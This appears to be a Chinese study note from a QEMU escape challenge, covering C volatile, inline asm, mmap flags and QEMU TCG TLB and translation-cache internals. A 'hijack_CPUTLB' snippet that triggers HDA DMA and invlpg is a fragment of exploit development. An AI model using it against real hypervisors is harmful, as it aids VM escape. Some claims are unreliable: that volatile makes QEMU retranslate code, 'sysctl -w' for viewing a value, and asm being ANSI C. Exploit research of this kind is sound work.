3. **多线程编程**：在多线程程序中，多个线程可能会修改某个变量的值，如果该变量没有使用 `volatile` 修饰，编译器可能会进行优化，导致某些线程读取到的是缓存中的旧值，而不是其他线程更新后的新值。通过 `volatile` 修饰变量，编译器会确保变量的值在每次访问时都被读取自内存，避免缓存优化问题。

### 典型使用场景

1. **硬件寄存器或外部设备状态的读取**：

   ``` c
   volatile int *hardware_register = (int *)0x1234;
   int value = *hardware_register;  // 每次都从硬件寄存器读取数据
   ```

2. **多线程环境中的标志变量**：

   ```c
   volatile int flag = 0;
   
   // 线程 A 设置 flag
   void thread_a() {
       flag = 1;
   }
   
   // 线程 B 检查 flag
   void thread_b() {
       while (flag == 0) {
           // 等待 flag 变为 1
       }
       // 执行其他操作
   }
   ```

   在这个例子中，`flag` 被标记为 `volatile`，以确保线程 B 每次检查 `flag` 时，都能从内存中读取最新的值，而不是缓存中的旧值。

### 注意事项

* `volatile` 不会进行原子操作，也不会同步多线程访问。它仅仅是告诉编译器不要对变量的读写进行优化，并不处理线程间的同步问题。在多线程环境中，除了使用 `volatile`，通常还需要使用其他机制（如互斥锁、原子操作）来保证线程安全。
* `volatile` 只能保证数据在内存中的一致性，但并不意味着你可以依赖它来处理更复杂的并发问题。

### 调试实践

某一次调试过后发现当BB整体被翻译了一次后，`mov qword ptr [rax], 2`和`mov rax, 0xdead00000; invlpg byte ptr [rax]`又被翻译了一次。代码如下：

```c {hide=true}
#define mmio_write64(mem, offset, value)    (*(volatile uint64_t *)(mem + offset) = value)
#define invlpg() { \
    asm volatile ( \
        "invlpg (%%rax)" \
        : \
        : "a" (HUGE_VA) \
        : "memory" \
    ); \
}
void hijack_CPUTLB() {
    mmio_write64(HDA_VA, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_DMA_START);
    invlpg();
}
```

BB如下：

```asm {hide=true}
.text:0000000000401A96 F3 0F 1E FA                             endbr64
.text:0000000000401A9A 55                                      push    rbp
.text:0000000000401A9B 48 89 E5                                mov     rbp, rsp
.text:0000000000401A9E B8 C0 E0 AF 0C                          mov     eax, 0CAFE0C0h
.text:0000000000401AA3 48 C7 00 02 00 00 00                    mov     qword ptr [rax], 2
.text:0000000000401AAA 48 B8 00 00 E0 AB 0B 00                 mov     rax, 0BABE00000h
.text:0000000000401AAA 00 00
.text:0000000000401AB4 0F 01 38                                invlpg  byte ptr [rax]
.text:0000000000401AB7 90                                      nop
.text:0000000000401AB8 5D                                      pop     rbp
.text:0000000000401AB9 C3                                      retn
```

log如下：

```log {hide=true}
----------------
IN: 
0x00401a96:
OBJD-T: f30f1efa554889e5b8c0e0af0c48c7000200000048b80000e0ab0b0000000f01
OBJD-T: 38 # BB

----------------
IN: 
0x00401aa3:  
OBJD-T: 48c70002000000 # mov qword ptr [rax], 2

----------------
IN: 
0x00401aaa:  
OBJD-T: 48b80000e0ab0b0000000f0138 # mov rax, 0xdead00000; invlpg byte ptr [rax]
```

思考了一下为什么会被翻译两次的情况，应该是因为在`mmio_write64()`和`invlpg()`都添加了`volatile`关键字，导致每次运行到这些函数或指令时都会重新进行翻译确保内容为最新状态。把这两处的`volatile`关键字都去掉，再运行一次看log就只会翻译一次了。

**综上，只要添加了`volatile`关键字，每次运行时都会重新对相关指令进行翻译，而不使用缓存。**


## asm内联汇编

在 C 语言中，`asm volatile` 是一种嵌入式汇编的写法，常用于直接插入汇编代码到 C 代码中。

**这个语法的关键字 `volatile` 用来告诉编译器，这段汇编代码的行为不会被优化，编译器不能对它进行优化处理，通常是因为这些汇编代码涉及到硬件操作、内存映射寄存器、或者其他不应该被优化的操作。**

### 基本语法

```c
asm volatile ("汇编代码" : 输出操作数(寄存器) : 输入操作数(寄存器) : clobber 列表);
```

* **输出操作数（可选）：** 输出操作数用于指定汇编代码执行后，如何将数据写回 C 代码中的变量。它的格式为 `=m`、`=r` 等，表示操作数类型。
* **输入操作数（可选）：** 输入操作数用于指定 C 语言中的变量，传递给汇编代码，格式为 `m`、`r` 等。操作数后可跟一个括号，表示输入/输出操作数放到哪个寄存器中。
* **clobber 列表（可选）：** 这是告诉编译器哪些寄存器会被修改，从而避免编译器对这些寄存器的优化。通常包括被修改的寄存器列表（或`"memory"`表示被修改的是内存）。

> [!tips]
>
> 在 C/C++ 中，`asm` 和 `__asm__` 都是用来嵌入汇编代码的关键字，但它们之间有一些微妙的差别，主要是与编译器的兼容性和语言规范有关。
>
> 1. `asm`
>
> - `asm` 是 ANSI C 标准中定义的关键字，用于在 C 代码中嵌入汇编语言。它通常用于 GCC 和其他兼容 GCC 的编译器中。
> - 在 GCC 中，`asm` 是有效的关键字，但在一些其他编译器中，它可能不被支持，或者被替换成 `__asm__` 或其他形式。
> - `asm` 关键字是一个标准方式，可以在 C/C++ 代码中嵌入汇编语言。
>
> ```c
> asm("movl %0, %%eax" : : "r" (value));
> ```
>
> 2. `__asm__`
>
> - `__asm__` 是 GCC 编译器中的扩展语法，用于嵌入汇编代码。它是 `asm` 关键字的另一种形式，通常用于避免与某些其他系统中可能存在的关键字冲突。
> - `__asm__` 的作用和 `asm` 是一样的，它们在语法和功能上并没有显著差异。它更像是一个额外的命名约定，确保不会与其他编译器的关键字冲突。
> - 例如，`__asm__` 是 GCC 和 Clang 中嵌入汇编代码的推荐方式，因为它避免了与某些系统头文件中的宏或其他符号发生冲突。
>
> ```c
> __asm__("movl %0, %%eax" : : "r" (value));
> ```
>
> 在实际编程中，如果你使用的是 GCC 或 Clang 编译器，`__asm__` 通常是推荐的选择，因为它在这些编译器中有更好的兼容性，尤其是在使用某些库或其他系统头文件时。

### 示例

#### 示例 1：简单的汇编嵌入

在下面的例子中，我们在 C 代码中嵌入了一条汇编指令：

```c
int a = 10, b = 20;
asm volatile (
    "addl %%ebx, %%eax;"
    : "=a"(a)           // 输出操作数：a 存储计算结果
    : "a"(a), "b"(b)    // 输入操作数：将 a 和 b 的值传递给 eax 和 ebx
);
```

* `"addl %%ebx, %%eax;"`：这条汇编指令表示将 `ebx` 寄存器的值加到 `eax` 寄存器。
* `: "=a"(a)`：表示将计算结果存储到变量 `a` 中，并且将结果放到 `eax` 寄存器。
* `: "a"(a), "b"(b)`：将变量 `a` 的值放入 `eax` 寄存器，变量 `b` 的值放入 `ebx` 寄存器。

#### 示例 2：不涉及输出操作数

有时，你的汇编代码不需要输出到 C 语言变量中，只是执行一些有副作用的操作，比如 I/O 操作、或者与硬件交互。

```c
asm volatile ("nop");  // 执行无操作指令（没有输入和输出）
```

#### 示例 3：涉及到 `clobber` 列表的使用

`clobber` 列表用来告诉编译器哪些寄存器被汇编代码修改，避免编译器误用这些寄存器。例子：

```c
int a = 10, b = 20;
asm volatile (
    "movl %%eax, %%ebx;"
    : "=b"(b)      // 输出操作数，将 ebx 的内容存储到 b 中
    : "a"(a)       // 输入操作数，将 a 的值传给 eax
    : "ebx"        // 声明 ebx 会被修改
);
```

* `: "ebx"`：告诉编译器 `ebx` 寄存器会被修改，因此编译器应该避免对该寄存器进行优化。


## mmap flags

### MAP_FIXED

正常情况下，当使用`mmap`映射文件时，操作系统会选择一个合适的虚拟地址来映射文件内容。如果你指定的地址范围无法映射或存在冲突，操作系统会自动调整映射地址。

**使用`MAP_FIXED`选项时，操作系统会强制将映射的区域放置到你指定的地址。如果该地址已经被其他内存区域使用，不会引发错误或异常，只是简单地覆盖这些区域。**

```c
const uint64_t data_vaddr = 0xbabe00000;
uint8_t *data = mmap((void *)data_vaddr, 0x1000, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON, -1, 0);
```


### MAP_HUGETLB

`MAP_HUGETLB` 使得映射的内存区域使用大页面（通常是 2MB 或 1GB）而不是默认的小页面（通常是 4KB）。TLB是CPU中用于快速查找虚拟地址和物理地址之间映射的高速缓存。使用大页内存可以减少每次内存访问时需要查找的页表条目数量，从而降低TLB缓存缺失的概率，改善性能。

前提条件：

1. **系统支持大页：** 使用 `MAP_HUGETLB` 之前，必须确保操作系统启用了大页支持。通常，Linux 上使用的默认大页大小是 2MB，但也有可能使用 1GB 的大页，具体取决于硬件和内核配置。

2. **内存预分配：** 在一些系统上，你可能需要预先为大页内存分配一定的空间。`vm.nr_hugepages`内核参数控制Linux系统当前已经分配的HugePages数量。这个参数的值是系统在启动时或通过 `sysctl` 设置的，单位通常是大页数量（而不是字节数）：

   ```bash
   # 查看当前vm.nr_hugepages值
   sysctl -w vm.nr_hugepages
   #or
   cat /proc/sys/vm/nr_hugepages
   
   # 设置vm.nr_hugepages
   sysctl -w vm.nr_hugepages=512
   ```

   在C代码中使用：

   ```c
   system("sysctl -w vm.nr_hugepages=102400");
   ```

3. **用户权限：** 由于大页内存可能对系统的内存管理产生影响，一些系统可能需要用户具有足够的权限（如 `root` 权限）才能启用大页内存。

```c
#define HUGEPAGE_SZ (2*1024*1024) 
uint8_t *huge = mmap(0, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_PRIVATE|MAP_ANON|MAP_HUGETLB, -1, 0);
```


### MAP_POPULATE

`MAP_POPULATE`用于在内存映射（memory mapping）时提前预填充页面（page）。默认情况下，当通过`mmap`映射内存时，只有在访问该内存区域时，操作系统才会为该内存区域分配物理页面，并将其加载到内存中，这会在首次访问时触发缺页异常。

**`MAP_POPULATE`选项会在内存映射时就将内存区域的物理页面分配和映射到进程的虚拟地址空间中，预先加载内存页面避免后续的页面缺失。**

```c
uint8_t *data = mmap(0, 0x1000, PROT_READ|PROT_WRITE,
            MAP_PRIVATE|MAP_ANON|MAP_POPULATE, -1, 0);
```


## Qemu TCG

参考：

* [TCG Emulation](https://www.qemu.org/docs/master/devel/index-tcg.html)

* [A deep dive into QEMU: TCG memory accesses](https://airbus-seclab.github.io/qemu_blog/tcg_p3.html) - [qemu-vcpu-tlbs](https://github.com/airbus-seclab/qemu_blog/blob/main/tcg_p3.md#qemu-vcpu-tlbs)

  > 这是作者TCG系列的第3篇，前两篇也写的很不错，除TCG外[QEMU internals](https://airbus-seclab.github.io/qemu_blog/)其他系列也写的很不错，不过和这道题的关系不大，可以作扩展阅读。

* [根据 retaddr 找到其关联的 TranslationBlock](https://martins3.github.io/qemu/map.html#%E6%A0%B9%E6%8D%AE-retaddr-%E6%89%BE%E5%88%B0%E5%85%B6%E5%85%B3%E8%81%94%E7%9A%84-translationblock)

* [QEMU 的 softmmu 设计](https://martins3.github.io/qemu/softmmu.html)

### TCG

TCG（Tiny Code Generator）是 QEMU 中的一个动态二进制翻译引擎，它的核心功能是将目标架构的机器代码（例如 x86, ARM, MIPS 等）翻译为主机架构的机器代码。QEMU 支持多种架构，而 TCG 使 QEMU 能够在这些不同架构间进行高效的转换。

QEMU TCG 流程概述:

1. 目标代码加载： QEMU 会加载虚拟机中运行的目标架构程序，通常通过模拟器加载目标架构的二进制文件（例如 ELF 格式的文件）。
2. 指令翻译： 当目标程序执行时，QEMU **会以基本块（BB，Basic Block）为单位**，将目标架构的机器指令翻译为主机架构的机器指令。这个过程是动态的，即实时进行的，称为动态二进制翻译（DBT）。
   * 指令解码： QEMU 首先会将目标架构的指令解码为中间语言（IR）。
   * 生成 TCG 操作： 然后，QEMU 会根据目标架构的 IR 生成相应的 TCG 操作（例如，`TCG_OP_ADD` 表示加法操作）。
3. 生成主机架构的代码： QEMU 使用 TCG 来生成主机架构的机器代码。TCG 会将目标架构的每条指令转换成等效的主机架构指令。**翻译完成后的基本块为[TB（TranslationBlock）](https://elixir.bootlin.com/qemu/v9.2.2/source/include/exec/translation-block.h#L41)**。
4. 指令执行： 经过翻译后的主机架构指令被执行，这些指令会直接调用主机 CPU 的指令集。
5. 指令缓存和优化： 一旦目标架构的代码被翻译为主机架构的机器指令，它们通常会被缓存起来（如`tb_jmp_cache`通过gva找到TB，`tb_htable_lookup`通过gpa找到TB等等），以避免重复翻译，提高性能。如果相同的BB再次被执行，QEMU可以直接查找并执行对应的TB，而不需要重新进行翻译。
6. 回到目标架构： 虽然大部分指令都可以通过翻译来处理，但对于某些特定的目标架构指令（如 I/O 操作、特殊寄存器操作等），QEMU 可能需要直接模拟目标架构的行为，而不进行二进制翻译。

在QEMU的源码中，TCG主要涉及以下几个核心文件：

* tcg.h / tcg-opc.h / tcg-target.h： 这些头文件定义了与 TCG 相关的各种结构体、操作码（opcodes）以及与目标架构相关的特定操作。
* tcg.c： 这个文件包含了 TCG 的实现，涉及如何将目标架构的指令转换为主机架构的指令，并管理代码生成和翻译。


### Softmmu & TLB

> [!caution]
>
> 开启kmv的情况下不适用，因为kvm将内存虚拟化处理掉之后，softmmu很多复杂机制就没有了。

softmmu只有TCG才需要，实现基本思路是：所有的访存指令前使用软件进行地址翻译

* 如果TLB命中，那么直接获取gpa进行访存
* 如果TLB没有命中，那么走慢路径，也就是`store_helper`

TLB在code中的经典路径:

```
 * Since the addressing of x86 architecture is complex, we
 * remain the original processing that exacts the final
 * x86vaddr from IR1_OPND(x86 opnd).
 * It is usually done by functions load_ireg_from_ir1_mem()
 * and store_ireg_from_ir1_mem().
```

* `gen_ldst_softmmu_helper`
  * `__gen_ldst_softmmu_helper_native`: 其中的注释非常清晰，首先查询 TLB，如果不成功，进入慢路径
    * `tr_gen_lookup_qemu_tlb` : TLB 比较查询
    * `tr_gen_ldst_slow_path`: 跳转到slow path
      * `td_rcd_softmmu_slow_path`
* `tr_ir2_generate`
  * `tr_gen_tb_start`
  * `tr_gen_softmmu_slow_path`: slow path的代码在每一个 tb 只会生成一次
    * `__tr_gen_softmmu_sp_rcd`
      * `helper_ret_stb_mmu`: 跳转入口
        * `store_helper`
          * `io_writex`
            * `memory_region_dispatch_write`
  * `tr_gen_tb_end`

进行TLB填充的经典路径:

* `store_helper`
  * `tlb_fill`
    * `x86_cpu_tlb_fill`
      * `handle_mmu_fault`: 利用 x86 的页面进行 page walk
        * `tlb_set_page_with_attrs` : 设置页面

代码执行过程中，读内存的指令也可能触发 TLB refill 操作:

```gdb {hide=true}
#0  tlb_set_page_with_attrs (cpu=0x7ffff7ffd9e8 <_rtld_global+2440>, vaddr=32767, paddr=140737354006919, attrs=..., prot=0, mmu_idx=-1, size=4096) at src/tcg/cputlb.c:682
#1  0x0000555555629469 in handle_mmu_fault (cs=0x55555596ea80 <__x86_cpu>, addr=4294967280, size=0, is_write1=2, mmu_idx=2) at src/i386/excp_helper.c:637
#2  0x0000555555629640 in x86_cpu_tlb_fill (cs=0x55555596ea80 <__x86_cpu>, addr=4294967280, size=0, access_type=MMU_INST_FETCH, mmu_idx=2, probe=false, retaddr=0) at src/i386/excp_helper.c:685
#3  0x00005555555d94d8 in tlb_fill (cpu=0x55555596ea80 <__x86_cpu>, addr=4294967280, size=0, access_type=MMU_INST_FETCH, mmu_idx=2, retaddr=0) at src/tcg/cputlb.c:895
#4  0x00005555555d9d88 in get_page_addr_code_hostp (env=0x5555559771f0 <__x86_cpu+34672>, addr=4294967280, hostp=0x0) at src/tcg/cputlb.c:1075
#5  0x00005555555d9f0e in get_page_addr_code (env=0x5555559771f0 <__x86_cpu+34672>, addr=4294967280) at src/tcg/cputlb.c:1106
#6  0x00005555555cd59e in tb_htable_lookup (cpu=0x55555596ea80 <__x86_cpu>, pc=4294967280, cs_base=4294901760, flags=64, cflags=4278190080) at src/tcg/cpu-exec.c:675
#7  0x00005555555cbaab in tb_lookup__cpu_state (cpu=0x55555596ea80 <__x86_cpu>, pc=0x7fffffffd4b8, cs_base=0x7fffffffd4b4, flags=0x7fffffffd4bc, cflags=4278190080) at src/tcg/../../include/exec/tb-lookup.h:44
#8  0x00005555555cc5a1 in tb_find (cpu=0x55555596ea80 <__x86_cpu>, last_tb=0x0, tb_exit=0, cflags=0) at src/tcg/cpu-exec.c:285
#9  0x00005555555cd0a6 in cpu_exec (cpu=0x55555596ea80 <__x86_cpu>) at src/tcg/cpu-exec.c:559
#10 0x000055555561afb8 in tcg_cpu_exec (cpu=0x55555596ea80 <__x86_cpu>) at src/qemu/cpus.c:122
#11 0x000055555561b22c in qemu_tcg_rr_cpu_thread_fn (arg=0x55555596ea80 <__x86_cpu>) at src/qemu/cpus.c:235
```


### Qtree

[`tcg_region_tree`](https://elixir.bootlin.com/qemu/v9.2.2/source/tcg/region.c#L49)结构采用二叉树存储缓存的TB（tb_tc，Translation Cache-related fields of a TB），提高TB缓存的查找效率。其中[`QTree`](https://elixir.bootlin.com/qemu/v9.2.2/source/util/qtree.c#L76)为树根，[`QTreeNode`](https://elixir.bootlin.com/qemu/v9.2.2/source/util/qtree.c#L86)为节点。

```c
// https://elixir.bootlin.com/qemu/v9.2.2/source/tcg/region.c#L49
struct tcg_region_tree {
    QemuMutex lock;
    QTree *tree;
    /* padding to avoid false sharing is computed at run-time */
};

// https://elixir.bootlin.com/qemu/v9.2.2/source/util/qtree.c#L76
struct _QTree {
    QTreeNode        *root;
    GCompareDataFunc  key_compare;
    GDestroyNotify    key_destroy_func;
    GDestroyNotify    value_destroy_func;
    gpointer          key_compare_data;
    guint             nnodes;
    gint              ref_count;
};
struct _QTreeNode {
    gpointer   key;         /* key for this node */
    gpointer   value;       /* value stored at this node */
    QTreeNode *left;        /* left subtree */
    QTreeNode *right;       /* right subtree */
    gint8      balance;     /* height (right) - height (left) */
    guint8     left_child;
    guint8     right_child;
};
```

每个TB对应一个[`tb_tc`](https://elixir.bootlin.com/qemu/v9.2.2/source/include/exec/translation-block.h#L29)，再对应一个`QTreeNode`，`tb_tc`仅用`ptr`和`size`两个字段标识已完成翻译的TB缓存。

```c
// https://elixir.bootlin.com/qemu/v9.2.2/source/include/exec/translation-block.h#L29
/*
 * Translation Cache-related fields of a TB.
 * This struct exists just for convenience; we keep track of TB's in a binary
 * search tree, and the only fields needed to compare TB's in the tree are
 * @ptr and @size.
 * Note: the address of search data can be obtained by adding @size to @ptr.
 */
struct tb_tc {
    const void *ptr;    /* pointer to the translated code */
    size_t size;
};
```

当需要执行某个目标架构指令时，[`cpu_exec_loop`](https://elixir.bootlin.com/qemu/v9.2.2/source/accel/tcg/cpu-exec.c#L952)首先调用[`tb_lookup`](https://elixir.bootlin.com/qemu/v9.2.2/C/ident/tb_lookup)查找是否有已完成翻译的TB，如果没有找到则调用[`tb_gen_code`](https://elixir.bootlin.com/qemu/v9.2.2/C/ident/tb_gen_code)进行翻译，将`gen_code_buf`和`gen_code_size`分别写入`tb->tc.ptr`和`tb->tc.size`，并调用[`tcg_tb_insert`](https://elixir.bootlin.com/qemu/v9.2.2/C/ident/tcg_tb_insert)：

```c {hide=true}
void tcg_tb_insert(TranslationBlock *tb)
{
    struct tcg_region_tree *rt = tc_ptr_to_region_tree(tb->tc.ptr);

    g_assert(rt != NULL);
    qemu_mutex_lock(&rt->lock);
    q_tree_insert(rt->tree, &tb->tc, tb);
    qemu_mutex_unlock(&rt->lock);
}
```

`tcg_tb_insert`先调用[`tc_ptr_to_region_tree`](https://elixir.bootlin.com/qemu/v9.2.2/source/tcg/region.c#L194)从[`region_trees`](https://elixir.bootlin.com/qemu/v9.2.2/C/ident/region_trees)中找到对应对应的`tcg_region_tree`：

```c {hide=true}
// https://elixir.bootlin.com/qemu/v9.2.2/source/tcg/region.c#L84
/*
 * This is an array of struct tcg_region_tree's, with padding.
 * We use void * to simplify the computation of region_trees[i]; each
 * struct is found every tree_size bytes.
 */
static void *region_trees;
static size_t tree_size;

// https://elixir.bootlin.com/qemu/v9.2.2/source/tcg/region.c#L194
static struct tcg_region_tree *tc_ptr_to_region_tree(const void *p)
{
    size_t region_idx;

    /*
     * Like tcg_splitwx_to_rw, with no assert.  The pc may come from
     * a signal handler over which the caller has no control.
     */
    if (!in_code_gen_buffer(p)) {
        p -= tcg_splitwx_diff;
        if (!in_code_gen_buffer(p)) {
            return NULL;
        }
    }

    if (p < region.start_aligned) {
        region_idx = 0;
    } else {
        ptrdiff_t offset = p - region.start_aligned;

        if (offset > region.stride * (region.n - 1)) {
            region_idx = region.n - 1;
        } else {
            region_idx = offset / region.stride;
        }
    }
    return region_trees + region_idx * tree_size;
}
```

而后再调用`q_tree_insert`->`q_tree_insert_node`->[`q_tree_insert_internal`](https://elixir.bootlin.com/qemu/v9.2.2/source/util/qtree.c#L536)插入`tcg_region_tree`的`QTree`，通过**比对地址按小左大右的方式搜索二叉树，找到合适位置插入并返回新的`QTreeNode`**，最后还会平衡整理一下`QTree`左右的节点：

```c {hide=true}
/* internal insert routine */
static QTreeNode * QEMU_DISABLE_CFI
q_tree_insert_internal(QTree    *tree,
                       gpointer  key,
                       gpointer  value,
                       gboolean  replace)
{
    QTreeNode *node, *retnode;
    QTreeNode *path[MAX_GTREE_HEIGHT];
    int idx;

    g_return_val_if_fail(tree != NULL, NULL);

    if (!tree->root) {
        tree->root = q_tree_node_new(key, value);
        tree->nnodes++;
        return tree->root;
    }

    idx = 0;
    path[idx++] = NULL;
    node = tree->root;

    while (1) {
        int cmp = tree->key_compare(key, node->key, tree->key_compare_data);

        if (cmp == 0) {
            if (tree->value_destroy_func) {
                tree->value_destroy_func(node->value);
            }

            node->value = value;

            if (replace) {
                if (tree->key_destroy_func) {
                    tree->key_destroy_func(node->key);
                }

                node->key = key;
            } else {
                /* free the passed key */
                if (tree->key_destroy_func) {
                    tree->key_destroy_func(key);
                }
            }

            return node;
        } else if (cmp < 0) {
            if (node->left_child) {
                path[idx++] = node;
                node = node->left;
            } else {
                QTreeNode *child = q_tree_node_new(key, value);

                child->left = node->left;
                child->right = node;
                node->left = child;
                node->left_child = TRUE;
                node->balance -= 1;

                tree->nnodes++;

                retnode = child;
                break;
            }
        } else {
            if (node->right_child) {
                path[idx++] = node;
                node = node->right;
            } else {
                QTreeNode *child = q_tree_node_new(key, value);

                child->right = node->right;
                child->left = node;
                node->right = child;
                node->right_child = TRUE;
                node->balance += 1;

                tree->nnodes++;

                retnode = child;
                break;
            }
        }
    }

    /*
     * Restore balance. This is the goodness of a non-recursive
     * implementation, when we are done with balancing we 'break'
     * the loop and we are done.
     */
    while (1) {
        QTreeNode *bparent = path[--idx];
        gboolean left_node = (bparent && node == bparent->left);
        g_assert(!bparent || bparent->left == node || bparent->right == node);

        if (node->balance < -1 || node->balance > 1) {
            node = q_tree_node_balance(node);
            if (bparent == NULL) {
                tree->root = node;
            } else if (left_node) {
                bparent->left = node;
            } else {
                bparent->right = node;
            }
        }

        if (node->balance == 0 || bparent == NULL) {
            break;
        }

        if (left_node) {
            bparent->balance -= 1;
        } else {
            bparent->balance += 1;
        }

        node = bparent;
    }

    return retnode;
}
```

